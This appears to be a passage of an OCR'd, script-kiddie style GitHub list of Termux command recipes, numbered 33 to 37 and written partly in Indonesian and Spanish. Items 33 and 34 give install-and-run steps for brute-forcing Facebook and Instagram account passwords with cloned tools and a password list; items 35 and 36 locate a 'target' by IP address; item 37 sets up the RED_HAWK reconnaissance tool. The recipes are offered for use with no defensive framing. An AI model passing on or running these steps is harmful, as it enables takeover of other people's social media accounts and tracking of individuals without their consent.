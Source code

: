 33. || HACK FB TARGET ||

$ apt update
$ apt upgrade
$ apt install python2
$ pip2 install urllib3 chardet certifi idna requests
$ apt install openssl curl
$ pkg install libcurl
$ ln /sdcard
$ cd /sdcard
$ python2 fbbrute.py

34. || TUTORIAL HACK INSTAGRAM ||

$ apt update && apt upgrade
$ pkg install python
$ pkg install git 
$ pkg install nano
$ git clone https://github.com/avramit/instahack.git
$ ls
$ cd instahack
$ ls
$ pip install requests
$ cd instahack
$ nano pass.txt
$ cat pass.txt
$ ls
$ python hackinsta.py

35. || LOCALIZAR IP ||

$ apt install python git
$ git clone https://github.com/maldevel/IPGeoLocation.git
$ cd IPGeoLocation
$ chmod +x ipgeoLocation.py
$ pip install -r requirements.txt
$ python ipgeolocation.py -m
$ python ipgeolocation.py -t http://www.google.com

36. || LACAK LOKASI LEWAT IP TARGET ||

$ pkg install git
$ git clone https://github.com/maldevel/IPGeolocation
$ cd IPGeolocation
$ chmod +x ipgeolocation.py
$ pip install -r requirements.txt
$ python ipgeolocation.py -m
$ python ipgeolocation.py -t taro IP yang ingin dilacak
CONTOH : python ipgeolocation.py -t 127.38.22.3

37. || RED_HAWK TOOLS ||

$ apt update
$ apt install git
$ git clone https://github.com/Tuhinshubhra/RED_HAWK
$ cd RED_HAWK
$ chmod +x rhawk.php
$ apt install php
$ ls
$ php rhawk.php
